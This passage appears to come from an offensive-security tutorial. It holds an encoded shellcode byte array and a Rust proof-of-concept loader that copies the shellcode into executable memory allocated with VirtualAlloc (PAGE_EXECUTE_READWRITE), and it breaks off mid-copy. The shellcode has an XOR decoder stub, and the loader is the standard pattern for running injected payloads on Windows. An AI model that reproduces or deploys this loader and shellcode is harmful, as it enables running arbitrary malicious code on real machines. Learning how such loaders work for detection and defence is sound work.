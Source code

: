 ```
0x87,0xb2,0x9c,0x8f,0xc9,0x47,0x45,0x9c,0x0a,0xc5,0xba,0x88,
0x36,0xac,0x44,0xd6,0x5e,0xcb,0xbb,0x88,0x36,0xac,0x40,0xd6,
0x4e,0xda,0xbb,0x88,0x36,0xda,0x3d,0x92,0x8a,0x7f,0xff,0x0b,
0x60,0x95,0xf3,0x8e,0x83,0xf4,0x73,0xc9,0x8c,0x62,0xb9,0xf9,
0x9d,0x3a,0x6f,0xc0,0x53,0xfe,0x60,0x34,0xe7,0xe5,0xdc,0xfa,
0x59,0xff,0x2c,0x16,0x98,0x83,0x9b,0x88,0x7b,0xf7,0x7f,0x28,
0xaa,0xa2,0xdf,0xca,0x59,0xea,0x0c,0x2e,0xb8,0xa0,0xc8,0xbb,
0x04,0xbc,0x68,0x37,0xa7,0xc5,0xba,0x88,0x36,0x92,0x0c,0x5b
];
```

### POC code

Now we can copy and paste the previously generated shellcode into our POC Rust code:

```
use windows::Win32::System::Memory::{VirtualAlloc, MEM_COMMIT, PAGE_EXECUTE_READWRITE};

fn main() {
    let shellcode: [u8; 367] = [
        0x48, 0x31, 0xc9, 0x48, 0x81, 0xe9, 0xd7, 0xff, 0xff, 0xff, 0x48, 0x8d, 0x05, 0xef, 0xff,
        0xff, 0xff, 0x48, 0xbb, 0xcb, 0xc5, 0xba, 0x88, 0x36, 0x92, 0x0c, 0x5b, 0x48, 0x31, 0x58,
        0x27, 0x48, 0x2d, 0xf8, 0xff, 0xff, 0xff, 0xe2, 0xf4, 0x37, 0x8d, 0x3b, 0x6c, 0xc6, 0x6d,
        0xf3, 0xa4, 0x23, 0x15, 0xba, 0x88, 0x36, 0xd3, 0x5d, 0x1a, 0x9b, 0x97, 0xeb, 0xde, 0x7e,
        0xa3, 0xde, 0x3e, 0x83, 0x4e, 0xe8, 0xe8, 0x08, 0xda, 0x87, 0x09, 0xd3, 0xfb, 0xf2, 0x03,
        0x64, 0xb2, 0x32, 0x13, 0x40, 0xb7, 0xea, 0xb6, 0x7e, 0x9d, 0xbb, 0x11, 0x81, 0x88, 0x8b,
        0x41, 0x7e, 0xa3, 0xcc, 0xf7, 0xf7, 0xa4, 0xc6, 0x8a, 0x1a, 0xb2, 0x4d, 0x9a, 0x02, 0xc8,
        0xfb, 0x89, 0xf7, 0x70, 0xe1, 0x09, 0x8a, 0x94, 0x84, 0xc0, 0xbd, 0xc0, 0x2c, 0x65, 0x40,
        0x87, 0x86, 0xc0, 0x37, 0x42, 0x32, 0xd0, 0x4b, 0x4d, 0xba, 0x88, 0x36, 0xda, 0x89, 0x9b,
        0xbf, 0xaa, 0xf2, 0x89, 0xe6, 0xc2, 0x32, 0xd0, 0x83, 0xdd, 0x84, 0xcc, 0xbd, 0xd2, 0x2c,
        0x12, 0xca, 0x15, 0x59, 0xd4, 0x7e, 0x6d, 0xc5, 0x65, 0x8a, 0x4e, 0x8e, 0x00, 0x7e, 0x93,
        0xda, 0x16, 0xfa, 0x0c, 0xf2, 0xb9, 0xf6, 0x3e, 0x4d, 0x9a, 0x02, 0xc8, 0xfb, 0x89, 0xf7,
        0xaa, 0xec, 0x2e, 0x3a, 0xfb, 0xf6, 0x8b, 0x7a, 0xb6, 0x04, 0x1e, 0xf2, 0x14, 0xcf, 0x5e,
        0x6e, 0xac, 0x48, 0xd0, 0x8b, 0xe1, 0xf3, 0x89, 0xe6, 0xf4, 0x32, 0x1a, 0x40, 0xc9, 0xf2,
        0xb6, 0x72, 0x19, 0x4c, 0x47, 0x82, 0xc4, 0x6a, 0xb6, 0x77, 0x19, 0x08, 0xd3, 0x83, 0xc4,
        0x6a, 0xc9, 0x6e, 0xd3, 0x54, 0x05, 0x92, 0x9f, 0xfb, 0xd0, 0x77, 0xcb, 0x4d, 0x01, 0x83,
        0x46, 0x56, 0xa8, 0x77, 0xc0, 0xf3, 0xbb, 0x93, 0x84, 0xe3, 0xd2, 0x08, 0xda, 0x87, 0x49,
        0x22, 0x8c, 0x45, 0x77, 0xc9, 0xcf, 0x32, 0x13, 0x46, 0x48, 0x90, 0x89, 0x36, 0x92, 0x4d,
        0xe1, 0x87, 0xb2, 0x9c, 0x8f, 0xc9, 0x47, 0x45, 0x9c, 0x0a, 0xc5, 0xba, 0x88, 0x36, 0xac,
        0x44, 0xd6, 0x5e, 0xcb, 0xbb, 0x88, 0x36, 0xac, 0x40, 0xd6, 0x4e, 0xda, 0xbb, 0x88, 0x36,
        0xda, 0x3d, 0x92, 0x8a, 0x7f, 0xff, 0x0b, 0x60, 0x95, 0xf3, 0x8e, 0x83, 0xf4, 0x73, 0xc9,
        0x8c, 0x62, 0xb9, 0xf9, 0x9d, 0x3a, 0x6f, 0xc0, 0x53, 0xfe, 0x60, 0x34, 0xe7, 0xe5, 0xdc,
        0xfa, 0x59, 0xff, 0x2c, 0x16, 0x98, 0x83, 0x9b, 0x88, 0x7b, 0xf7, 0x7f, 0x28, 0xaa, 0xa2,
        0xdf, 0xca, 0x59, 0xea, 0x0c, 0x2e, 0xb8, 0xa0, 0xc8, 0xbb, 0x04, 0xbc, 0x68, 0x37, 0xa7,
        0xc5, 0xba, 0x88, 0x36, 0x92, 0x0c, 0x5b,
    ];

    println!("payload size: {}", std::mem::size_of_val(&shellcode));

    unsafe {
        let lpalloc = VirtualAlloc(
            None,
            std::mem::size_of_val(&shellcode),
            MEM_COMMIT,
            PAGE_EXECUTE_READWRITE,
        );

        if lpalloc.is_null() {
            panic!("VirtualAlloc failed!");
        }

        std::ptr::copy_nonoverlapping(
            shellcode.as_ptr(),
            lpalloc as *mut u8,
```